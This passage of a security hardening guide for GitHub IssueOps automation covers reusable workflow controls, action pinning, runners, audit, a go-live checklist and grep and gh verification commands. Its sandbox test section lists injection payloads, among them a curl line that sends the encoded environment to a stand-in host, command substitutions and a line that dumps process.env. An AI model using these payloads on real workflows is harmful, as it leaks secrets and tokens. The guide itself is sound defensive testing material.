            if (!/^[a-z0-9][a-z0-9-]{0,99}$/.test(e.OWNING_TEAM)) throw new Error('Invalid team slug')
            if (!['private', 'internal'].includes(e.VISIBILITY)) throw new Error('Visibility not allowed')
            if (!['push', 'maintain'].includes(e.TEAM_ROLE)) throw new Error('Team role not allowed')
            if (!['general', 'confidential', 'restricted'].includes(e.DATA_CLASSIFICATION)) throw new Error('Classification not allowed')

            await github.rest.repos.createInOrg({
              org,
              name: e.REPOSITORY_NAME,
              visibility: e.VISIBILITY,
              auto_init: true,
              custom_properties: { data_classification: e.DATA_CLASSIFICATION }
            })
            core.setOutput('url', `${context.serverUrl}/${org}/${e.REPOSITORY_NAME}`)
            core.setOutput('created', 'true')

            await github.rest.teams.addOrUpdateRepoPermissionsInOrg({
              org,
              team_slug: e.OWNING_TEAM,
              owner: org,
              repo: e.REPOSITORY_NAME,
              permission: e.TEAM_ROLE
            })
```

What this variant adds on top of section 11:

| Control                                   | Where                                                                                                   |
|-------------------------------------------|---------------------------------------------------------------------------------------------------------|
| Caller allowlist that callers cannot edit | `ALLOWED_CALLERS` in the reusable workflow file, checked against `github.workflow_ref`, which includes the ref, so a copy of the caller on a feature branch is rejected |
| Validation before approval                | `validate` job has no environment and no secrets; the approval request only appears for valid calls      |
| Frozen approved values                    | Inputs are fixed when the call starts; the reusable workflow recomputes the digest shown to reviewers    |
| No duplicate creation                     | Caller concurrency keyed on the issue, and reusable-workflow concurrency keyed on the repository name    |
| No caller-selected security settings      | `environment`, `runs-on`, token `owner` and permissions, and organization are hard-coded                |
| No secrets passed by the caller           | The write key is an environment secret of `issueops-apply` in the caller repository                     |
| No confused deputy                        | The reusable workflow has no `GITHUB_TOKEN` permissions and takes no issue number                         |

The digest proves that the inputs match what reviewers saw. It does not prove the request was authorized: team membership and naming rules were checked by the caller. If the reusable workflow accepts callers you do not fully trust, repeat the authorization checks (for example, requester membership of the owning team) inside it before creating the write token.

> [!IMPORTANT]
> Protect the central repository at least as strictly as the IssueOps repository: default-branch ruleset, CODEOWNERS on `.github/workflows/`, and signed release tags. Set its Actions access level no wider than needed (for example, the organization rather than the enterprise), and rely on `ALLOWED_CALLERS` for the per-repository restriction. Anyone who can change the reusable workflow can change what every caller runs at the next SHA bump.

---

## 13. Supply chain for the automation itself

The apply job runs every action and dependency in the same process space as the write token. Keep that set small and fixed.

* Pin every action and reusable workflow, including `actions/*`, to a full-length commit SHA taken from a tagged release in the action's own repository, not a fork. Add the version as a comment ([WAF: Pin versions of actions](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md)).
* Enforce pinning with the organization or enterprise SHA-pinning policy ([5.1](#51-restrict-allowed-actions-and-require-sha-pinning)).
* Enable Dependabot version updates for the `github-actions` and `npm` ecosystems. Dependabot alerts are not raised for actions pinned to SHAs, so also review advisories for the actions you use in the [GitHub Advisory Database](https://github.com/advisories?query=type%3Areviewed+ecosystem%3Aactions) and run dependency review on pull requests ([Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)).
* Review the source of every third-party action before first use and on every update. Avoid actions with mutable dependencies, such as unpinned container images or scripts downloaded at runtime.
* Minimize third-party actions in the privileged job. The reference implementation uses `actions/*` plus the two `issue-ops/*` actions. Replace convenience actions (comment posting, labeling) with `actions/github-script` calls. For community actions with a small maintainer base, consider vendoring a reviewed copy into an internal repository.
* Install npm dependencies with `npm ci --ignore-scripts` from a lockfile protected by CODEOWNERS.

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: github-actions
    directory: /
    schedule:
      interval: weekly
  - package-ecosystem: npm
    directory: /
    schedule:
      interval: weekly
```

OpenSSF Scorecard checks for dangerous workflow patterns, token permissions, and pinning. Community linters such as actionlint and zizmor catch many of the issues in this guide; evaluate them before adding them as required checks.

---

## 14. Runners

* Use GitHub-hosted runners. Each job runs in a fresh virtual machine that is destroyed afterwards.
* If you must use self-hosted runners, use ephemeral just-in-time runners, place them in a runner group restricted to the IssueOps repository, keep no other credentials on the host, and block access to cloud metadata services. Treat environment secrets on self-hosted runners as exposed to every job the runner executes ([Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use#hardening-for-self-hosted-runners)).
* Never run IssueOps on self-hosted runners from a public repository.

---

## 15. Monitoring and audit

A complete record for each change links four artifacts: the issue (request and discussion), the review summary with its digest, the environment approval (who approved and when), and the workflow run (what executed). The final comment in the reference implementation ties them together.

* Stream the enterprise audit log to your SIEM. Alert on changes to the IssueOps repository's environments, rulesets, and secrets (for example `org.update_actions_secret` and the equivalent repository and environment events), on new private keys for either App, and on App permission changes.
* Review environment reviewers, ruleset bypass lists, App installations, and App permissions on a schedule.
* Compare repositories created in the organization with repositories created by the automation. Repositories created outside the flow are either a legitimate break-glass action or a gap.
* Keep workflow run logs for your retention period. If a log contains an unredacted secret, delete the log and rotate the secret.

---

## 16. Testing the workflows

Test in a sandbox organization with its own Apps and keys.

### 16.1 Injection payloads

Put each payload in the title, every free-text field, and the justification. For reusable workflows and `workflow_dispatch`, also pass each payload directly as every string input from a test caller. Nothing should execute, and no workflow output, comment, or log should contain unexpected content.

```text
a"; curl https://example.invalid/?t=$(env | base64 -w0); echo "
$(id)
`id`
'); console.log(process.env); ('
${{ github.token }}
line1
INJECTED=1
--visibility=public
../other-repo
@org/platform-security please approve
```

### 16.2 Abuse scenarios

| Scenario                                                                  | Expected result                                              |
|---------------------------------------------------------------------------|--------------------------------------------------------------|
| Someone other than the author comments `.submit`                          | `submit` job skipped                                         |
| `.submit` commented on a pull request                                     | `submit` job skipped                                         |
| Requester, who is also a platform team member, approves their own run     | Blocked by prevent self-review                               |
| Requester edits the body after `.submit`, reviewer then approves          | Section 11 flow: `apply` fails at the digest check and nothing is created. Section 12 flow: the frozen, reviewed values are applied; the edit has no effect |
| Body edited by hand to set visibility `public` or role `admin`            | Validator rejects the selection; apply invariants also reject |
| Owning team the requester does not belong to                              | Validator rejects                                            |
| Repository name that already exists                                       | Validator rejects; creation would also fail                  |
| Someone adds an `approved` label manually                                 | No effect                                                    |
| A workflow on a feature branch references `issueops-apply`                | Blocked by the environment's deployment branch rule          |
| Two `.submit` comments in quick succession                                | At most one repository is created; an earlier pending run may be cancelled, and any later run fails validation because the repository exists |
| Team grant fails after the repository is created                          | Issue shows a partial-result comment; nothing is retried automatically |
| `.submit please` or `.submitted` comment                                  | Exact-command step fails; nothing else runs                   |
| Validator script or workflow changed without code owner review            | Merge blocked by the ruleset                                  |
| A repository not in the allowlist calls the reusable workflow             | Blocked by the central repository's access level (if outside it) or by the `ALLOWED_CALLERS` check |
| The authorized caller workflow, copied to a feature branch, calls the reusable workflow with `visibility: public` | `validate` job fails: caller ref not allowed, and visibility not allowed |
| Caller passes inputs that do not match `request_digest`                    | `validate` job fails; no approval request is created           |
| `workflow_dispatch` with `dry_run` set to `false` by a user without approval rights | Privileged job waits for environment approval               |

### 16.3 Static checks

Run CodeQL for GitHub Actions on every pull request to the IssueOps repository. Add a simple review rule: any `${{` inside a `run:` or `script:` block that references `github.event`, a step output, or a job output is a finding unless a reviewer documents why it is safe.

---

## 17. Patterns to avoid from public samples

Public IssueOps examples are written to teach the concept, and several of them contain patterns you should not copy into a privileged workflow.

| Pattern seen in public examples                                                    | Risk                                                                                                     | Use instead                                                                  |
|------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------|
| `JSON.parse('${{ steps.parse.outputs.json }}')` inside `github-script`               | A `'` in any form field ends the string; the rest runs as JavaScript with the App token                   | `env: PARSED: ...` and `JSON.parse(process.env.PARSED)`                        |
| `username: '${{ github.event.issue.user.login }}'` inside `github-script`            | Low risk because logins are restricted, but it normalizes the unsafe pattern                              | `context.payload.issue.user.login` or an environment variable                |
| `run: echo ${{ steps.parser.outputs.json }}` or `echo "Errors: ${{ steps.validate.outputs.errors }}"` | Parsed values and validation errors can contain requester text, which becomes shell code        | Do not log request data; if needed, use an environment variable              |
| Actions referenced by tag (`@v4`, `@vX.X.X`)                                        | Tags can be moved to malicious commits                                                                   | Full-length commit SHA with a version comment                                |
| Workflow-level `permissions` including `id-token: write`                            | Every job gets permissions it does not need                                                               | `permissions: {}` at workflow level, minimal job-level permissions           |
| `npm install` before running validators                                             | Resolves versions at run time and runs install scripts                                                    | `npm ci --ignore-scripts` with a committed lockfile                          |
| App private key stored as a repository or organization secret                       | Readable by any workflow in the repository, including ones pushed to branches by anyone with write access | Environment secret on an environment with required reviewers                 |
| `startsWith(github.event.comment.body, '.approve')` plus a team check               | No separation of duties and approval not bound to the reviewed content                                   | Environment approval with prevent self-review, plus digest check             |
| One App token, with all installation permissions, used for validation and changes   | Validator code and third-party actions hold the write credential                                          | Separate reader and writer Apps, `permission-*` inputs on every token         |
| `secrets: inherit` on a call to a privileged reusable workflow                      | Every caller secret flows into the called workflow                                                         | Explicit `secrets:` entries, or none and an environment secret               |
| `environment: ${{ inputs.environment }}` or `runs-on: ${{ inputs.runner }}`          | The caller chooses a weaker approval gate or a self-hosted runner                                          | Hard-coded values in the reusable workflow                                   |
| Reusable workflow referenced as `@main` or `@v1`                                    | Anyone who can push to the central repository changes what every caller runs                              | Full-length commit SHA with a version comment                                |
| Allowlist read from `vars` inside a reusable workflow                               | `vars` resolve in the caller's context, so the caller can supply its own                                   | Allowlist written in the reusable workflow file                              |
| `if: github.event.inputs.dry_run == false`                                           | `github.event.inputs` values are strings, so the comparison does not behave as intended                   | `inputs.dry_run` with a boolean input                                        |

---

## 18. Implementation validation checklist

Use this checklist to validate an implementation before go-live and after every change to the workflows, validators, reusable workflows, App permissions, or environment settings. Copy it into your tracking tool and add Status, Evidence, and Owner columns.

### 18.1 Severity and sign-off rules

| Severity | Meaning                                                                                                                  | Go-live rule                                                                                         |
|----------|--------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------|
| Critical | A failure gives an attacker, or any requester, a direct path to run code with the write credential or to make an unapproved change | Must pass. No exceptions                                                                        |
| High     | A failure removes a layer of defense, weakens evidence, or makes a Critical failure much more likely                      | Must pass, or have a documented, time-bound risk acceptance signed by the risk owner                  |

Record evidence for every item: a file and line, a command output, a screenshot of a setting, or a test run link.

### 18.2 Workflow code and injection

| ID    | Severity | Check                                                                                                                                                              | How to verify                                                                                                                                             |
|-------|----------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------|
| WF-01 | Critical | No `${{ }}` expression that references untrusted data appears inside `run:` or `script:`. Untrusted data: `github.event.*` text fields, `github.head_ref`, `inputs.*`, `steps.*.outputs.*`, `needs.*.outputs.*`, including when wrapped in functions such as `format()` or `toJSON()` | Review every `${{` inside `run:` and `script:` blocks; the searches in [18.10](#1810-verification-helpers) find candidates but do not prove a pass. CodeQL shows no open Actions injection alerts |
| WF-02 | Critical | No untrusted data is written to `$GITHUB_ENV` or `$GITHUB_PATH`; outputs are set with `core.setOutput` or a random heredoc delimiter                             | Search for `GITHUB_ENV`, `GITHUB_PATH`, and `GITHUB_OUTPUT`; review each write                                                                              |
| WF-03 | Critical | Every workflow has `permissions: {}` at the top, and every job declares only the permissions it uses. No `write-all`                                               | Search for workflow files without a top-level `permissions:`; review each job's `permissions` block against the API calls it makes                        |
| WF-04 | Critical | No `pull_request_target`, and no `workflow_run` that consumes artifacts or code from untrusted runs, in the IssueOps or central workflow repositories             | Search for both triggers; document and review any exception                                                                                               |
| WF-05 | High     | Untrusted values are not printed to logs, which can leak data and be interpreted as workflow commands                                                              | Search for `echo`, `console.log`, and `core.info` near request data; confirm only validated values or fixed text are logged                                |
| WF-06 | High     | `actions/checkout` sets `persist-credentials: false` and checks out only the default branch of the IssueOps repository                                            | Review every `actions/checkout` step for `persist-credentials`, `ref`, and `repository`                                                                    |
| WF-07 | High     | Every job sets `timeout-minutes`                                                                                                                                  | Review job definitions                                                                                                                                    |

### 18.3 Request parsing and validation

| ID    | Severity | Check                                                                                                                                                      | How to verify                                                                                                          |
|-------|----------|------------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------|
| IN-01 | Critical | Every issue body is parsed with `issue-ops/parser` and the `issue-form-template` input                                                                      | Review each parser step                                                                                                |
| IN-02 | Critical | Every field that influences execution is validated against an allowlist or an anchored, length-bounded pattern. Free-text fields never reach execution     | Map each form field to its validation rule and to where it is used; any unmapped field is a finding                   |
| IN-03 | Critical | Security-relevant values (visibility, role, classification, name) are re-asserted with hard-coded allowlists immediately before the privileged API calls  | Review the apply code; test by bypassing the validator in a sandbox branch and confirm the apply code still rejects    |
| IN-04 | High     | Validation runs on open and edit, on submit, and again in the privileged job                                                                              | Review the three workflows; run abuse scenario "edit after submit"                                                     |
| IN-05 | High     | Enumerated choices are `dropdown` fields; blank issues are disabled                                                                                        | Review the issue form and `.github/ISSUE_TEMPLATE/config.yml`                                                          |
| IN-06 | High     | Validators return fixed messages and do not reflect submitted values                                                                                       | Review validator scripts; submit a payload and confirm it does not appear in the validation comment                   |
| IN-07 | High     | Patterns are anchored at both ends in the language used (`re.fullmatch` in Python), restricted to ASCII classes, and bounded in length                    | Review each pattern against [12.5](#125-input-validation-pitfalls)                                                     |
| IN-08 | High     | Custom validators receive only a read-only token, run only on `issues` or `issue_comment` events, and dependencies are installed with `npm ci --ignore-scripts` | Review validator steps and `env:`; confirm the write token is never in scope                                          |

### 18.4 Reusable workflow and dispatch inputs

| ID    | Severity | Check                                                                                                                                                                         | How to verify                                                                                                                                    |
|-------|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| RW-01 | Critical | The reusable workflow validates every input (type, pattern, allowlist) in a job without secrets or environment, fails closed, and the privileged job `needs` it              | Review the reusable workflow; call it from a sandbox caller with invalid values and confirm no approval request appears                          |
| RW-02 | Critical | No security-relevant setting is derived from an input: `environment`, `runs-on`, token `owner`, `repositories`, `permission-*`, checkout `repository` and `ref`, organization, bypass flags | Search the reusable workflow for `inputs.` and confirm each use is data passed through `env:`                                                    |
| RW-03 | Critical | The reusable workflow checks the caller against an exact `github.workflow_ref` allowlist written in the file, not in `vars`. `github.repository` is at most an additional check | Call from a non-allowlisted sandbox repository and from a feature-branch copy of the caller; both must fail                                      |
| RW-04 | Critical | Callers reference the reusable workflow by full-length commit SHA                                                                                                            | Run the unpinned-reference search in [18.10](#1810-verification-helpers)                                                                          |
| RW-05 | Critical | No `secrets: inherit` on calls to privileged reusable workflows; the write key reaches the privileged job only as an environment secret                                    | Search for `secrets: inherit`; review `on.workflow_call.secrets`                                                                                 |
| RW-06 | High     | The reusable workflow does not load scripts, configuration, or allowlists from the checked-out workspace                                                                     | Review for `actions/checkout`, `require('./`, file reads, and `npm` steps                                                                        |
| RW-07 | High     | The calling job sets explicit minimal `permissions` and caps cache access with `cache-mode` where supported; the reusable workflow sets `permissions: {}` and minimal job permissions | Review both files                                                                                                                                |
| RW-08 | High     | No credential is passed as an input, and no output carries a token                                                                                                           | Review `with:` and `on.workflow_call.outputs`                                                                                                    |
| RW-09 | High     | The central repository's Actions access level is no wider than needed, and the central repository has rulesets and CODEOWNERS equal to or stricter than the IssueOps repository | Query the access level with the command in [18.10](#1810-verification-helpers); check rulesets                                                   |
| RW-10 | High     | `workflow_dispatch` inputs use `choice`, `boolean`, or `number` where possible, are read from `inputs.*`, default to safe values, and are validated in the workflow; the privileged job stays behind the approval environment | Review the trigger and first job; dispatch through the API with an out-of-list value and confirm rejection                                        |
| RW-11 | High     | If OIDC is used in a reusable workflow, the cloud trust policy matches `job_workflow_ref` and an exact `sub`                                                                 | Review the federated credential or trust policy                                                                                                  |

### 18.5 Identity and secrets

| ID    | Severity | Check                                                                                                                              | How to verify                                                                                                                  |
|-------|----------|------------------------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------------------------------------------------------------------------------|
| ID-01 | Critical | The write credential is a GitHub App installation token; no PAT is used, or each exception is documented with an owner and expiry | Search workflows and secrets for PAT names; review exceptions                                                                  |
| ID-02 | Critical | The writer App private key exists only as an environment secret on the approval environment, not as a repository or organization secret | List repository, organization, and environment secrets with the commands in [18.10](#1810-verification-helpers)               |
| ID-03 | Critical | The write token is created only in jobs that reference the approval environment, and only after validation and digest checks        | Review the order of steps in each privileged job                                                                               |
| ID-04 | High     | Every `create-github-app-token` step lists `permission-*` inputs and never sets `skip-token-revoke`                                 | Review each token step                                                                                                         |
| ID-05 | High     | Reader and writer identities are separate, and the reader App has no write permissions                                             | Review both App permission pages                                                                                               |
| ID-06 | High     | Installed App permissions match the endpoints used, webhooks are disabled, and installation scope is as narrow as the operations allow | Compare installed permissions with the endpoints' fine-grained permission tables                                               |
| ID-07 | High     | Private keys have an owner and a rotation schedule, and old keys are deleted after rotation                                         | Check the App's private key list and rotation records                                                                          |
| ID-08 | High     | `id-token: write` is granted only to jobs that use OIDC                                                                            | Search for `id-token`                                                                                                          |

### 18.6 Authorization and approval

| ID    | Severity | Check                                                                                                                                                             | How to verify                                                                                                                             |
|-------|----------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------|
| AP-01 | Critical | The approval environment has required reviewers (a team), prevent self-review enabled, administrator bypass disabled, and deployment branches limited to the default branch | Query the environment and its branch policies with the commands in [18.10](#1810-verification-helpers). Confirm administrator bypass in the environment settings page, and prove prevent self-review with a sandbox approval attempt |
| AP-02 | Critical | Approval is bound to content: the privileged job either re-fetches and compares the digest, or receives frozen inputs whose digest it recomputes                | Run abuse scenarios "edit after submit" and "inputs do not match digest"                                                                   |
| AP-03 | Critical | No privileged action is authorized by a label, `author_association`, or comment text alone                                                                     | Review every `if:` on privileged jobs                                                                                                     |
| AP-04 | Critical | Only the issue author can submit; pull request comments and bot comments are ignored; the command must match exactly                                           | Review the `submit` guard; run the related abuse scenarios                                                                                |
| AP-05 | High     | If comment-based approval is used: team membership is checked through the API, errors fail closed, and the approver cannot be the requester                   | Review the approval job; test with a non-member and with the requester                                                                  |
| AP-06 | High     | Reviewers see the validated values and digest on the run page before approving, and the runbook tells them to compare it with the issue                       | Open a pending run and confirm the job summary; review the runbook                                                                        |
| AP-07 | High     | The privileged job uses concurrency keyed on the request, and repeated submissions cannot create duplicates                                                      | Run abuse scenario "two submits in quick succession"                                                                                      |

### 18.7 Repository and platform controls

| ID    | Severity | Check                                                                                                                                                                  | How to verify                                                                                 |
|-------|----------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------|
| RP-01 | Critical | Default-branch ruleset on the IssueOps and central repositories: pull request, at least two approvals, code owner review, required status checks, no force push or deletion, bypass limited to break-glass | Query rulesets with the command in [18.10](#1810-verification-helpers)                         |
| RP-02 | Critical | CODEOWNERS covers workflows, issue templates, validators, helper scripts, `package.json`, the lockfile, and `CODEOWNERS` itself                                        | Review CODEOWNERS; open a test PR that touches each path and confirm the code owner request   |
| RP-03 | Critical | Every action and reusable workflow is pinned to a full-length commit SHA, and the organization or enterprise SHA-pinning policy is enabled                            | Run the unpinned-reference search; check the Actions policy                                   |
| RP-04 | Critical | Privileged jobs run on GitHub-hosted runners, or on ephemeral just-in-time self-hosted runners in a group restricted to these repositories                             | Review `runs-on` and runner group access                                                      |
| RP-05 | High     | Allowed actions policy restricts actions to enterprise-owned and approved actions and reusable workflows                                                               | Check the organization Actions policy                                                         |
| RP-06 | High     | Organization default `GITHUB_TOKEN` permission is read-only, and Actions cannot create or approve pull requests                                                       | Query the organization workflow permissions                                                   |
| RP-07 | High     | CodeQL analysis for GitHub Actions is enabled and required on the default branch                                                                                      | Check code scanning setup and the ruleset                                                     |
| RP-08 | High     | Dependabot version updates are enabled for `github-actions` and `npm`, and advisories for SHA-pinned actions are reviewed                                              | Review `.github/dependabot.yml` and the advisory review record                               |
| RP-09 | High     | Requesters have read access only; write access is limited to maintainers                                                                                              | Review repository access                                                                      |
| RP-10 | High     | Property-targeted rulesets and repository policies apply to every repository the automation creates, from creation                                                   | Create a sandbox repository through the flow and confirm the rulesets apply immediately       |

### 18.8 Execution and resilience

| ID    | Severity | Check                                                                                                                                                  | How to verify                                                                            |
|-------|----------|--------------------------------------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------------------------------------|
| EX-01 | Critical | Self-service cannot create public repositories, grant `admin`, delete, transfer, or change visibility to public; such operations are excluded or behind a separate environment and reviewer group | Review the form, validators, apply code, and environments                                |
| EX-02 | High     | Governance custom properties are set in the create call                                                                                              | Review the create call; inspect a sandbox-created repository                             |
| EX-03 | High     | Partial failures are reported with the created resource and the failed step, and nothing is deleted automatically                                    | Force a team-grant failure in the sandbox and check the issue comment                    |
| EX-04 | High     | API calls use typed parameters; if a CLI is used, values come from environment variables and positional arguments follow `--`                        | Review privileged steps                                                                  |

### 18.9 Monitoring and testing

| ID    | Severity | Check                                                                                                                                                  | How to verify                                                                                     |
|-------|----------|--------------------------------------------------------------------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------|
| TE-01 | Critical | The injection payloads in [16.1](#161-injection-payloads) were run against every free-text field, the title, and every string input of reusable and dispatched workflows, with no execution or unexpected output | Link the sandbox test runs                                                                        |
| TE-02 | Critical | Every abuse scenario in [16.2](#162-abuse-scenarios) produced the expected result                                                                     | Link the sandbox test runs                                                                        |
| TE-03 | High     | Tests are repeated after every change to workflows, validators, reusable workflows, App permissions, or environment settings                         | Check that the change process requires it                                                         |
| MO-01 | High     | Audit log streaming alerts on changes to environments, secrets, rulesets, Actions policies, App keys, and App permissions                            | Trigger a test change in the sandbox and confirm the alert                                         |
| MO-02 | High     | Each completed request records the approver, digest, and run link in the issue                                                                       | Inspect a completed sandbox request                                                               |
| MO-03 | High     | Repositories created outside the flow are detected and reviewed                                                                                        | Review the reconciliation report                                                                  |

### 18.10 Verification helpers

Run the searches from the root of each repository that contains workflows. They produce candidates for review, not verdicts.

```bash
# RP-03, RW-04: remote action or reusable workflow references not pinned to a 40-character SHA
grep -rnE '^\s*(-\s*)?uses:\s*[^./][^@[:space:]]+@' .github/workflows \
  | grep -viE '@[0-9a-f]{40}([[:space:]]|$)'

# RP-03: container image references (check each is pinned by digest, @sha256:...)
grep -rnE 'uses:\s*docker://' .github/workflows

# RP-03, RW-06: local actions and workflows (confirm which repository they resolve from;
# in a reusable workflow, a local action can come from the caller's checkout)
grep -rnE 'uses:\s*\./' .github/workflows

# WF-01: every expression, for review inside run: and script: blocks
grep -rn '\${{' .github/workflows

# WF-01: narrower list of expressions over common untrusted contexts
grep -rnE '\$\{\{\s*(github\.event\.|github\.head_ref|inputs\.|steps\.[^}]*outputs|needs\.[^}]*outputs)' .github/workflows

# WF-02: writes to environment and output files
grep -rnE 'GITHUB_(ENV|PATH|OUTPUT)' .github/workflows

# WF-04, RW-05: dangerous triggers and secret inheritance
grep -rnE 'pull_request_target|workflow_run|secrets:\s*inherit' .github/workflows

# WF-03: workflow files without a top-level permissions block
grep -LE '^permissions:' .github/workflows/*.yml .github/workflows/*.yaml 2>/dev/null

# ID-04, ID-08: token steps and OIDC permissions
grep -rnE 'skip-token-revoke|id-token:' .github/workflows
```

Settings checks with the GitHub CLI (replace `OWNER`, `REPO`, and `ORG`; response fields can differ between GitHub Enterprise Server versions):

```bash
# AP-01: approval environment protection rules (required reviewers, prevent_self_review) and branch policy type
gh api repos/OWNER/REPO/environments/issueops-apply \
  --jq '{rules: .protection_rules, branches: .deployment_branch_policy}'

# AP-01: the exact branch and tag patterns allowed to deploy (expect only the default branch)
gh api repos/OWNER/REPO/environments/issueops-apply/deployment-branch-policies \
  --jq '.branch_policies[] | {name, type}'

# ID-02: where secrets live (the writer key must appear only in the environment list)
gh api repos/OWNER/REPO/actions/secrets --jq '.secrets[].name'
gh api orgs/ORG/actions/secrets --jq '.secrets[].name'
gh api repos/OWNER/REPO/environments/issueops-apply/secrets --jq '.secrets[].name'

# RP-01: rulesets on the repository
gh api repos/OWNER/REPO/rulesets

# RP-05, RP-03: organization Actions policy
gh api orgs/ORG/actions/permissions

# RP-05: when allowed_actions is "selected", the allowed patterns
gh api orgs/ORG/actions/permissions/selected-actions

# RW-09: access level of the central repository's actions and reusable workflows
gh api repos/CENTRAL_OWNER/CENTRAL_REPO/actions/permissions/access

# RP-06: default token permissions and pull request approval by Actions
gh api orgs/ORG/actions/permissions/workflow
```

---

## 19. References

### IssueOps

* [IssueOps: Automate CI/CD (and more!) with GitHub Issues and Actions](https://github.blog/engineering/issueops-automate-ci-cd-and-more-with-github-issues-and-actions/), GitHub Blog
* [IssueOps documentation](https://issue-ops.github.io/docs/)
* [IssueOps: Workflow Security](https://issue-ops.github.io/docs/introduction/workflow-security)
* [IssueOps: Best Practices](https://issue-ops.github.io/docs/introduction/best-practices)
* [IssueOps: Repository setup](https://issue-ops.github.io/docs/setup/repository)
* [IssueOps: GitHub App setup](https://issue-ops.github.io/docs/setup/github-app)
* [`issue-ops/parser`](https://github.com/issue-ops/parser)
* [`issue-ops/validator`](https://github.com/issue-ops/validator)
* [`actions/create-github-app-token`](https://github.com/actions/create-github-app-token)

### GitHub guidance

* [Secure use reference](https://docs.github.com/en/actions/reference/security/secure-use)
* [GitHub Well-Architected: Securing GitHub Actions Workflows](https://github.com/github/github-well-architected/blob/a30275b/content/library/application-security/recommendations/actions-security.md) (commit `a30275b`)
* [Deployments and environments](https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments)
* [Reuse workflows](https://docs.github.com/en/actions/how-tos/reuse-automations/reuse-workflows)
* [Reusing workflow configurations (reference)](https://docs.github.com/en/actions/reference/workflows-and-actions/reusable-workflows)
* [Workflow syntax: `on.workflow_call`](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax#onworkflow_call) and [`on.workflow_dispatch.inputs`](https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-syntax#onworkflow_dispatchinputs)
* [Events that trigger workflows](https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows)
* [Use `GITHUB_TOKEN` for authentication in workflows](https://docs.github.com/en/actions/tutorials/authenticate-with-github_token)
* [Syntax for issue forms](https://docs.github.com/en/communities/using-templates-to-encourage-useful-issues-and-pull-requests/syntax-for-issue-forms)
* [Disabling or limiting GitHub Actions for your organization](https://docs.github.com/en/organizations/managing-organization-settings/disabling-or-limiting-github-actions-for-your-organization)
* [Authenticating as a GitHub App installation](https://docs.github.com/en/apps/creating-github-apps/authenticating-with-a-github-app/authenticating-as-a-github-app-installation)
* [REST API: Create an organization repository](https://docs.github.com/en/enterprise-cloud@latest/rest/repos/repos#create-an-organization-repository)
* [REST API: Add or update team repository permissions](https://docs.github.com/en/rest/teams/teams#add-or-update-team-repository-permissions)
* [REST API: Get team membership for a user](https://docs.github.com/en/rest/teams/members#get-team-membership-for-a-user)

### GitHub Security Lab

* [Keeping your GitHub Actions and workflows secure Part 1: Preventing pwn requests](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/)
* [Keeping your GitHub Actions and workflows secure Part 2: Untrusted input](https://securitylab.github.com/resources/github-actions-untrusted-input/)
* [Keeping your GitHub Actions and workflows secure Part 3: How to trust your building blocks](https://securitylab.github.com/resources/github-actions-building-blocks/)
* [Keeping your GitHub Actions and workflows secure Part 4: New vulnerability patterns and mitigation strategies](https://securitylab.github.com/resources/github-actions-new-patterns-and-mitigations/)

### Related documents in this repository

* [GitHub Actions Security: Echo Command Injection](17-github-actions-security-echo-command-injection.md)
* [GitHub Actions Multi-Repo Checkout Strategy](17-github-actions-repos-checkout-strategy.md)
* [Security-by-Default Policies](11-security-by-default-policies.md)
* [GitHub Custom Properties](23-github-custom-properties.md)
